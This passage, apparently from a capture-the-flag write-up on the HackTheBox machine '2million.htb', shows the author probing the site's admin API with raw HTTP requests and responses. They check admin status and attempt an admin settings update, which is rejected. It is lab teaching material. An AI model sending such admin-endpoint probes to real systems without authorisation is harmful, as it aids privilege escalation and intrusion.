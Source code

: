 - Here, I checked `/auth` API in order to see if I'm admin or not.

  ```
  Request:

  GET /api/v1/admin/auth HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:40:20 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 17
  
  {"message":false}
  ```

- No admin for lil mauz... 😢

- So, I tried to update my profile:

  ```
  Request:

  PUT /api/v1/admin/settings/update HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:41:25 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 53
  
  {"status":"danger","message":"Invalid content type."}
  ```
